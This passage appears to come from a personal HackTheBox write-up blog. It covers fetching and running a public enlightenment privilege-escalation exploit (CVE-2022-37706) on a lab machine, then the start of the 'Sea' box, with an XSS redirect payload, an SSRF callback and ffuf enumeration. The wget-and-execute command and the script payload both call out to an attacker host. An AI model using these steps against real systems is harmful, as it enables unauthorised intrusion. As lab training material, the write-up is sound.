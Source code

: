 (...)
```

As luck would have it, a [GitHub repository](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) surfaced containing information on CVE-2022-37706 for "enlightenment". After cloning this repository, I was prepared to transfer it to the target machine using a local HTTP server.

```
python3 -m http.server 8000
```

And here is the next step:

```
wget http://10.10.14.9:8000/exploit.sh
chmod +x exploit.sh
./exploit.sh
```

After that I was able to retrieve the root flag and this example is now concluded.

## HTB "Sea" retrospective

This entry reflects on the HTB machine "Sea," which featured a vulnerability in WonderCMS. The journey involved dealing with a malfunctioning exploit, hash cracking, and discovering internal ports that required SSH tunneling for forwarding. Later stages presented a command injection opportunity that I exploited for privilege escalation. Overall, this machine was quite finicky, with tricky enumeration phases, throwing unusual roadblocks and unexpected surprises along the way.

The initial Nmap scan revealed two open ports: 22: OpenSSH and 80: HTTP Apache.

Upon further exploration of the web server, I encountered a bike racing page with a registration form hosted at the following URL: ```http://sea.htb/contact.php```.

This is where I decided to experiment and play with various payloads pointing at my HTTP server. My first attempt involved crafting an XSS payload (to be entered in the URL field in the registration form), but unfortunately, it didn't yield the desired results (URL encoding also didn't help).

```
<script>document.location='http://10.10.14.10:8000';</script>
```

Ultimately, I found that simply taking the URL of my HTTP server, applying URL encoding, and submitting it through the form successfully triggered an action:

```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.28 - - [26/Sep/2024 15:29:37] "GET / HTTP/1.1" 200 -
```

What likely happened is the form might be filtering or stripping out JavaScript, but it's still vulnerable to other types of injection where it processes raw URLs directly. By URL encoding your HTTP server's address, I avoided any potential filtering or blocking mechanisms, and the form likely treated it as a legitimate input. Here’s what’s also interesting: the server or the application behind the form processed the encoded URL and issued a GET request to my Python HTTP server without needing JavaScript. It’s possible that this application’s behavior automatically fetches external resources when a URL is submitted. This might suggest the form is vulnerable to Server-Side Request Forgery (SSRF) rather than XSS. In SSRF, we would trick the server into making requests to any URL we control, which is exactly what happened here.

Anyway, I decided to move on and do further enumeration.

```
ffuf -u http://sea.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -recursion -recursion-depth 4
```
```